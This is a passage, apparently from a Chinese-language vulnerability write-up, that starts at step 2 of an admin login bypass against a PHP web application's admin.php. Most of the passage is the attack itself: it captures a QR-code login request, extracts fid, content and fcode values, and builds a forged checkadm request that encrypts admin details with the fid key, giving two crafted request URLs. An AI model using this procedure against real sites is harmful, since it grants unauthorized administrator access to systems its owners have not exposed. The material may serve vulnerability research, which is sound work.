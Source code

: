 2.  进行登录绕过

首先点击生成二维码，并抓取请求

![image-20231029223354444](assets/1702521293-b5022034095019431b32dd6ffd3a29f0.jpg)

提取 fid 和 content 的值，构造二维码链接内容

```url
/admin.php?c=login&f=mobile&fid=a9vLrUxOHh7lGBpOvl0X1YZq31VEoBRj&content=98f74dWIq9Fxl3ylM9PTGN5t7uLXvxUjkBvgGN8Gi3R3vUXDr+CUy39CuedoZEs1VhBcRGsHJyslvZZxA4ymf4s12N2\/oFNbDhIeMtuj53uEp\/VL00EFK1emBS22iR4htlxmCvChgKcOeZvTjZIrtGI57wH\/s
```

提取页面中`fcode`的值

![image-20231029223402092](assets/1702521293-44cfe862bf825d4ec83b9c857c2fd1a7.jpg)

然后构造`checkadm`请求，用`fid`文件内容密钥加密 admin 信息

```php
/admin.php?c=login&f=checkadm&fid=a9vLrUxOHh7lGBpOvl0X1YZq31VEoBRj&content=bdd983NgUnCTROK1Ksf7\/brkwgpThiRBRoWfgRzzVducS7Fzg1ND9mbR3mNGg6R6VvAy2CVIaMOwOyAa7PbZgZWkzspzFBs4oWPY1VcJyQ0xZ3WmSXsIXEiFSuXYqMcLpMXFs
```
